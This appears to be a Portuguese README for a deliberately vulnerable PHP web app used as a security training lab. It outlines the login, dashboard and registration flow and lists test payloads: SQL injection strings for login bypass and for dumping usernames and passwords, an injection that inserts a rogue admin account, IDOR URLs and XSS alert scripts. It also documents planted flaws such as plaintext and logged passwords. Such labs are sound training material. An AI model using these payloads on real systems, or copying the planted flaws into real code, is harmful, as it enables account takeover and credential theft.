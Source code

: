 ### Fluxo de Autenticação:
1. **Login** (`login.php`):
   - Valida credenciais contra o banco `users`
   - Cria sessão PHP
   - Registra tentativa em `login_logs` (incluindo senhas!)
   - Redireciona para `dashboard.php`

2. **Dashboard** (`dashboard.php`):
   - Verifica sessão (vulnerável)
   - Permite IDOR via `?user_id=X`
   - Mostra dados do usuário
   - Permite edição de perfil

3. **Cadastro** (`register.php`):
   - Insere novo usuário no banco
   - Senhas em texto plano (vulnerável)
   - Validação mínima
   - Logs de cadastro

## 🎯 Vulnerabilidades Implementadas

### 1. SQL Injection no Login
**Local:** `login.php`
**Como testar:**
```sql
# Campo usuário:
admin' OR '1'='1'--
admin' OR 1=1#
' UNION SELECT 1,2,3,4,username,password,7,8 FROM users--
```

### 2. SQL Injection no Cadastro
**Local:** `register.php`
**Como testar:**
```sql
# Campo username:
test'; INSERT INTO users VALUES(99,'hacker','123','hack@evil.com','Hacker','admin',1,NOW(),NOW()); --
```

### 3. IDOR no Dashboard  
**Local:** `dashboard.php`
**Como testar:**
```
dashboard.php?user_id=1  # Ver dados do admin
dashboard.php?user_id=2  # Ver dados de outro usuário
```

### 4. XSS nos Dados
**Locais:** Comentários, perfil, cadastro
**Como testar:**
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```
